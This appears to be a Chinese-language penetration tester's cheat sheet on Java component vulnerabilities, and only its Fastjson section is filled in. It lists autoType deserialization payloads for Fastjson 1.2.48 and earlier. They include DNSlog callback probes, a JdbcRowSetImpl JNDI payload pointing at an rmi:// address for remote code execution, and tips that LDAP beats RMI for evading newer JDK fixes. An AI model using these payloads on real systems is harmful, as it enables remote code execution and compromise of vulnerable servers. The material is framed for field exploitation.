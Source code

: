 

# JAVA组件漏洞

[TOC]



## 1. Fastjson

### 	1.1 版本 <= 1.2.48

### 		1.1.1 回显

```
======= 回显 =======
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL", "val":"dnslog"}]
Set[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0
```

### 		1.1.2  RCE

```
======= 通杀payload =======
{
    "rand1": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "rand2": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://127.0.0.1:1099/aaa",
      "autoCommit": true
    }
}
```

### 		1.1.3 利用要点

(备注：根据实战中经验，更推荐使用Ldap协议进行漏洞利用）

RMI协议的利用方式 在JDK 6u132/7u122/8u113 及以上版本中修复了
LDAP协议的利用方式 在JDK 6u211/7u201/8u191 及以上版本中修复了
LDAP的利用方式要优于RMI, 且LDAP可以直接返回序列化对象, 绕过更高版本的JDK限制
当发现一台Redis的数据中含有@type的字样时，意味着AutoType多半是开的



## 2. Apache-poi

## 3. Shiro
